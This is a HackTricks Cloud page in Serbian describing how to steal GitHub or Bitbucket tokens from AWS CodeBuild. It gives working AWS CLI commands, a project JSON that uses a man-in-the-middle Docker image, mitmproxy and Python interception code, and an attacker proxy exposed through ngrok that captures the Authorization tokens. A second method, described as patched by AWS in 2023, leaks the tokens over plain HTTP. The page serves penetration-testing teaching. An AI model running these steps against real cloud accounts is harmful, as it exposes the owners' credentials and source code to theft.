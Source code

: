 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

Prvo, proverite da li postoje bilo akreditivi za izvor koji su konfigurisani koje biste mogli da leak-ujete:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Ako otkrijete da je autentifikacija, na primer, za Github postavljena na nalogu, možete **izvući** tu **pristup** (**GH token ili OAuth token**) tako što ćete naterati Codebuild da **koristi određenu docker sliku** za pokretanje izgradnje projekta.

U tu svrhu možete **napraviti novi Codebuild projekat** ili promeniti **okruženje** postojećeg da postavite **Docker sliku**.

Docker slika koju možete koristiti je [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Ovo je vrlo osnovna Docker slika koja će postaviti **env promenljive `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. Ovo će vam omogućiti da presretnete većinu saobraćaja hosta navedenog u **`https_proxy`** i **`http_proxy`** i verujete SSL CERT-u navedenom u **`SSL_CERT_FILE`**.

1. **Kreirajte i otpremite svoju Docker MitM sliku**
* Pratite uputstva iz repozitorijuma da postavite svoju proxy IP adresu i postavite svoj SSL certifikat i **izgradite docker sliku**.
* **NE POSTAVLJAJTE `http_proxy`** da ne biste presreli zahteve ka metadata endpoint-u.
* Možete koristiti **`ngrok`** kao `ngrok tcp 4444` da postavite proxy na vaš host.
* Kada izgradite Docker sliku, **otpremite je na javni repo** (Dockerhub, ECR...)
2. **Postavite okruženje**
* Kreirajte **novi Codebuild projekat** ili **izmenite** okruženje postojećeg.
* Postavite projekat da koristi **prethodno generisanu Docker sliku**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Postavite MitM proxy na vašem hostu**

* Kao što je navedeno u **Github repozitorijumu**, možete koristiti nešto poput:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy verzija koja je korišćena je 9.0.1**, prijavljeno je da sa verzijom 10 ovo možda neće raditi.
{% endhint %}

4. **Pokrenite gradnju i zabeležite akreditive**

*   Možete videti token u **Authorization** header-u:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Ovo se takođe može uraditi iz aws cli sa nečim poput

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Putem HTTP protokola~~

{% hint style="success" %}
**Ova ranjivost je ispravljena od strane AWS-a u nekom trenutku tokom nedelje 20. februara 2023. (mislim u petak). Tako da napadač više ne može da je zloupotrebi :)**
{% endhint %}

Napadač sa **povišenim dozvolama u CodeBuild-u mogao bi da iscuri Github/Bitbucket token** koji je konfigurisan ili ako su dozvole konfigurirane putem OAuth, **privremeni OAuth token koji se koristi za pristup kodu**.

* Napadač bi mogao da doda promenljive okruženja **http\_proxy** i **https\_proxy** u CodeBuild projekat koje upućuju na njegovu mašinu (na primer `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Zatim, promeniti URL github repozitorijuma da koristi HTTP umesto HTTPS, na primer: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Zatim, pokrenuti osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji su ukazale proxy promenljive (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na kraju, kliknite na **Build the project**, **akreditivi** će biti **poslati u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sada će napadač moći da koristi token sa svoje mašine, da izlista sve privilegije koje ima i (zlo)upotrebi lakše nego korišćenjem CodeBuild usluge direktno.
{% endhint %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
